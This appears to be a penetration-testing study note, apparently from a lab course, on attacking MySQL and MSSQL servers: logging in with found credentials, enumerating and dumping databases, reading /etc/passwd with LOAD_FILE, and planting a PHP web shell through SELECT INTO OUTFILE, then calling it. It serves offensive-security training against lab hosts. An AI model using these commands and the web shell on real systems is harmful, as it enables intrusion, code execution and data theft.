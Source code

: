 MySQL also supports different authentication methods, such as username and password, as well as Windows authentication (a plugin is required). In the past, there was a vulnerability CVE-2012-2122 in MySQL 5.6.x servers, among others, that allowed us to bypass authentication by repeatedly using the same incorrect password for the given account because the timing attack vulnerability existed in the way MySQL handled authentication attempts
# Protocol Specific Attacks
Let's imagine we gained access to a SQL Database. First, we need to identify existing databases on the server, what tables the database contains, and finally, the contents of each table.
## MySQL - Connecting to the SQL Server
### Linux
```
mysql -u julio -pPassword123 -h 10.129.20.13
```
SQL Syntax
```
mysql> SHOW DATABASES;
```
Select a Database
```
mysql> USE htbusers;
```
Show Tables
```
mysql> SHOW TABLES;
```
Select all Data from Table "users”
```
mysql> SELECT * FROM users;
```
### Windows
```
C:\htb> sqlcmd -S SRVMSSQL -U julio -P 'MyPassword!' -y 30 -Y 30
```
SQL Syntax
```
1> SELECT name FROM master.dbo.sysdatabases
2> GO
```
Select a Database
```
1> USE htbusers
2> GO
```
Show Tables
```
1> SELECT table.name FROM htbusers.INFORMATION.SCHEMA.TABLES
2> GO
```
Select all Data from Table "users”
```
1> SELECT * FROM user
2> GO
```
## Dump sql credentials
For example you have db.php5 file with a database called Magic
```
mysqldump Magic -utheseus -piamkingtheseus
```

# Scanning MySQL Server
```
sudo nmap 10.129.14.128 -sV -sC -p3306 --script mysql*
```
Be careful with false positives, as we know for a fact that the target MySQL server does not use an empty password for the user root, but a fixed password. We can test this with the following command:
```
mysql -u root  -h 10.129.14.128
```
Access denied
if we use a password that we have guessed or found through our research, we will be able to log in to the MySQL server and execute some commands.
```
mysql -u root -pP4SSw0rd -h 10.129.14.128
```
The most important databases for the MySQL server are the system schema (sys) and information schema (information_schema). 
We can get usernames and passwords from the SQL database.
## Write Local Files
we can achieve command execution if we write to a location in the file system that can execute our commands. For example, suppose MySQL operates on a PHP-based web server or other programming languages like ASP.NET. If we have the appropriate privileges, we can attempt to write a file using SELECT INTO OUTFILE in the webserver directory. Then we can browse to the location where the file is and execute our commands.
### MySQL - Write Local File
```
mysql> SELECT "<?php echo shell_exec($_GET['c']);?>" INTO OUTFILE '/var/www/html/webshell.php';
```
In MySQL, a global system variable secure_file_priv limits the effect of data import and export operations, such as those performed by the LOAD DATA and SELECT … INTO OUTFILE statements and the LOAD_FILE() function. These operations are permitted only to users who have the FILE privilege.
`secure_file_priv` may be set as follows:
1. IF empty: The variable has no effect, which is not a secure setting
2. IF set to the name of a directory, the server limits import and export operations to work only with files in that directory. The directory must exist, the server does not create it
3. IF set to  NULL, the server disables import and export operations
```
mysql> show variables like "secure_file_priv";
```
`secure_file_priv` variable is empty (within the value in the table), which means we can read and write data using MySQL
## Read Files
by default a MySQL installation does not allow arbitrary file read, but if the correct settings are in place and with the appropriate privileges, we can read files using the following methods:
```
mysql> select LOAD_FILE("/etc/passwd");
```
If it is on a webserver after uploading a php webshell
```
http://10.129.196.66/backdoor.php?cmd=type C:\\Users\\Administrator\\Desktop\\flag.txt
```
# dbeaver
dbeaver is a multi-platform database tool for Linux, macOS, and Windows that supports connecting to multiple database engines such as MSSQL, MySQL, PostgreSQL, among others, making it easy for us, as an attacker, to interact with common database servers.
## Install dbeaver
```
sudo dpkg -i dbeaver-<version>.deb
```
## Run dbeaver
```
dbeaver &
```
